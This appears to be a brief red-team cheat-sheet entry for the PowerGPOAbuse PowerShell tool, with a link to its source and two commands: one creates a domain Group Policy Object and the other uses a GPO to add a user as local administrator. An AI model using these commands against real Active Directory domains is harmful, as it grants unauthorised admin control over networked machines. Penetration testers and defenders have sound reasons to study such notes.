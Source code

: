 ### source
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1  

### create new gpo
```
New-DomainGPO -DisplayName <gpoName> -Domain <domain>
```

### use gpo to add new admin
```
Add-LocalAdmin -GPOIdentity '<gpo>' -Member <user> -Domain <domain>
```

